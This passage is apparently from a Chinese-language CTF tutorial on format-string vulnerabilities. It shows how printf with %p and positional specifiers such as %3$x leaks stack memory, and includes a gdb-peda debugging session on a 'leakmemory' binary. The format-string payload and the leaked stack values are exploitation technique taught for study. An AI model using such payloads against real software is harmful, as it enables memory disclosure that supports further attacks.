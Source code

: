 <div align=center><img src="./images/45.png"></div>

继续运行, 我们可以得到如下结果, 也可以使用`%p`来获取数据:

<div align=center><img src="./images/46.png"></div>

这里需要注意的是, 并不是每次得到的结果都一样, 因为栈上的数据会因为每次分配的内存页不同而有所不同, 这是因为栈是不对内存页做初始化的. 上面给出的方法都是依次获得栈中的每个参数, 但是我们有办法直接获取栈中被视为第`n+1`个参数的值, 方法为`%n$x`. 利用`GDB`进行调试, 可以看出确实获得了`printf`的第`4`个参数所对应的值`80491d1`.

```c++
gdb-peda$ b printf
Breakpoint 1 at 0x8049070
gdb-peda$ r
Starting program: /ctf/work/leakmemory
%3$x


[------------------------------------stack-------------------------------------]
0000| 0xfff560fc --> 0x804921e (<main+104>:     add    esp,0x20)
0004| 0xfff56100 --> 0x804a00b ("%08x.%08x.%08x.%s\n")
0008| 0xfff56104 --> 0x1
0012| 0xfff56108 ("\"\"\"\"\377\377\377\377 a\365\377 a\365\377\220\231\372\367ё\004\b%3$x")
0016| 0xfff5610c --> 0xffffffff
0020| 0xfff56110 --> 0xfff56120 ("%3$x")
0024| 0xfff56114 --> 0xfff56120 ("%3$x")
0028| 0xfff56118 --> 0xf7fa9990 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, __printf (format=0x804a00b "%08x.%08x.%08x.%s\n") at printf.c:28
28      printf.c: No such file or directory.
gdb-peda$ c
Continuing.
00000001.22222222.ffffffff.%3$x
```